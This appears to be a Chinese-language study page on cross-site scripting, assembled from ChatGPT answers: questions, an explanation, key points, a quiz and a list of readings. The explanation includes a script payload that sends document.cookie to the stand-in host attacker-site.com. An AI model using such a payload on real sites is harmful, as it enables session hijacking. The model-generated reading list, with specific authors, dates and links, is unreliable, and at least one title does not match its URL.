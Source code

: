 ## 習題預習
{{< ask_chatgpt >}}
給我5題Cross-site scripting (XSS)的問題
{{< /ask_chatgpt >}}



1. 什麼是Cross-site scripting（XSS）攻擊？該攻擊有哪些常見的類型？

2. 如何防止Cross-site scripting（XSS）攻擊？有哪些常見的防禦措施？

3. 什麼是反射性Cross-site scripting（XSS）攻擊？該攻擊有哪些特點和危害？

4. 什麼是存儲型Cross-site scripting（XSS）攻擊？該攻擊有哪些特點和危害？

5. Cross-site scripting（XSS）攻擊可以對Web應用程序造成哪些影響？該攻擊有哪些具體的實例？   

## 說明知識
{{< ask_chatgpt >}}
說明Cross-site scripting (XSS)並舉例
{{< /ask_chatgpt >}}



Cross-site scripting (XSS)是一種web安全漏洞，指攻擊者從一個被信任的網站中插入惡意代碼到一個目標網站中，使其在使用者訪問目標網站時執行該惡意代碼，從而獲取使用者敏感資訊或對其進行其他攻擊。

以下是一個XSS攻擊的例子：

1. 攻擊者獲取一個受害者網站的search欄位，並將JavaScript代碼插入其中：

```
<script>
  alert("Your data has been stolen");
  var xhr = new XMLHttpRequest();
  xhr.open('GET', "http://attacker-site.com/stealData?data=" + document.cookie);
  xhr.send();
</script>
```

2. 當受害者在該網站中輸入查詢並提交時，JavaScript代碼將被執行，該腳本從該網站盜取受害者的cookie資訊並將其發送到攻擊者的網站。

3. 從受害者的cookie，攻擊者可以繞過某些安全措施，例如登錄會話，並以該受害者的名義進行任何活動，例如執行不良交易或更改受害者的個人資訊。

這種類型的攻擊通常發生在web應用程序中，尤其是需要使用者輸入數據的場景，例如搜索、評論或提交表單等。必須採取安全措施，如過濾來自使用者的輸入，將輸入的HTML編碼或JavaScript脫機，以保護Web應用程序免受XSS攻擊。   

## 彙總重點
{{< ask_chatgpt >}}
條列Cross-site scripting (XSS)的重點
{{< /ask_chatgpt >}}



1. XSS是一種網路攻擊方式，攻擊者利用網站或應用程式中的漏洞，注入惡意腳本程式碼，將它們傳給用戶端瀏覽器執行。

2. 在XSS攻擊中，攻擊者可利用受害者瀏覽器的安全漏洞，進而盜取受害者的個人資料、密碼、信用卡號等敏感資訊。

3. XSS攻擊分為反射型、儲存型、以及DOM-based三種，其中反射型和儲存型是最常見的。

4. 預防XSS攻擊的方法包括對輸入數據進行適當的驗證和過濾、對輸出數據進行適當的編碼以及使用安全的開發技術和工具。

5. 如發現網站或應用程式中存在XSS漏洞，要及時修補漏洞、提升安全性，以保護用戶個人隱私和保密資訊。   

## 知識測驗
{{< ask_chatgpt >}}
給我5題Cross-site scripting (XSS)的中等難度問題，並在後面列出答案
{{< /ask_chatgpt >}}



1. What is the difference between reflected XSS and stored XSS, and why is stored XSS considered more dangerous?
Answer: Reflected XSS attacks involve injecting malicious code into a vulnerable web application that is then reflected back to the user』s browser, typically in a URL or form submission. Stored XSS attacks, on the other hand, involve injecting malicious code directly into a vulnerable database or storage area where it is stored until accessed by another user. Stored XSS is considered more dangerous because it can affect many users over a longer period of time, and the attack can be difficult to detect and remediate.

2. What are some best practices for preventing XSS attacks, and why are they effective?
Answer: Some best practices for preventing XSS attacks include sanitizing user input, validating and limiting user input and output, using secure coding techniques and frameworks, and utilizing security tools and scanners. These techniques are effective because they help to prevent malicious code from being injected into web application inputs, reduce the risk of exploitation through XSS vulnerabilities, and detect and remediate potential attacks and vulnerabilities.

3. How can an attacker use a cross-site scripting vulnerability to steal user credentials or sensitive information, and what is the best way to prevent this?
Answer: An attacker can use a cross-site scripting vulnerability to steal user credentials or sensitive information by injecting malicious code that captures user input, such as login credentials or credit card information. The best way to prevent this is to implement strong security controls, such as encryption, secure authentication methods, and secure coding practices, and to regularly monitor and test for vulnerabilities and potential attacks.

4. How can a web application developer detect and remediate XSS vulnerabilities in their code, and what are some common mistakes to avoid?
Answer: A web application developer can detect and remediate XSS vulnerabilities in their code by conducting regular security testing and repairing any discovered vulnerabilities, implementing secure coding practices, and utilizing security tools and scanners. Common mistakes to avoid include failing to properly validate user input, failing to sanitize user input and output, and relying solely on client-side security measures.

5. How can an attacker use a reflected XSS attack to manipulate a user』s browsing session, and what can users do to protect themselves from such attacks?
Answer: An attacker can use a reflected XSS attack to manipulate a user』s browsing session by injecting malicious code that can modify web content, redirect the user to a different site, or steal sensitive information. Users can protect themselves from such attacks by using secure and up-to-date browsers, enabling browser security settings, avoiding clicking on suspicious links or downloading unknown files, and regularly scanning their devices for malware and viruses.   

## 網路資料
{{< ask_chatgpt >}}
給我5篇Cross-site scripting (XSS)的網路資料
{{< /ask_chatgpt >}}



1. "What is Cross-site scripting (XSS) attack?" by Akshaya Pai, published on Medium on May 1, 2020.

Link: https://medium.com/@akshayapai/what-is-cross-site-scripting-xss-attack-5ed5c67106f9

This article provides an overview of what cross-site scripting (XSS) is and how it works. It also describes the types of XSS attacks, how to prevent them, and how they can be mitigated.

2. "Cross-Site Scripting (XSS)" by OWASP.

Link: https://owasp.org/www-community/attacks/XSS/

This article is from the Open Web Application Security Project (OWASP) and provides a detailed explanation of cross-site scripting (XSS) attacks. It covers the history, types, and common examples of XSS exploits, as well as prevention and mitigation measures.

3. "How to Prevent Cross-Site Scripting Attacks" by Michael Cobb, published on TechTarget on January 8, 2021.

Link: https://searchsecurity.techtarget.com/definition/cross-site-scripting

This article discusses the importance of preventing cross-site scripting (XSS) attacks within websites and web applications. It provides steps for prevention, including input validation and output encoding, as well as techniques for mitigation.

4. "Cross-Site Scripting (XSS) Attack: Types, Prevention, and Examples" by Alvaro Montoro, published on Netsparker on February 24, 2021.

Link: https://www.netsparker.com/cybersecurity-insight/cross-site-scripting-xss-attack-prevention-examples/

This article covers different types of cross-site scripting (XSS) attacks, including stored, reflected, and DOM-based. It also provides tips on how to prevent and mitigate XSS attacks and includes examples of how they can be used maliciously.

5. "A Beginner's Guide to Cross-Site Scripting (XSS) Attacks" by Scott Colvey, published on Infosec on August 18, 2020.

Link: https://resources.infosecinstitute.com/beginners-guide-cross-site-scripting-xss-attacks/

This article provides a beginner's guide to cross-site scripting (XSS) attacks, including their definition, types, and how they can be used by attackers. It also covers the importance of web application security and some prevention measures.   

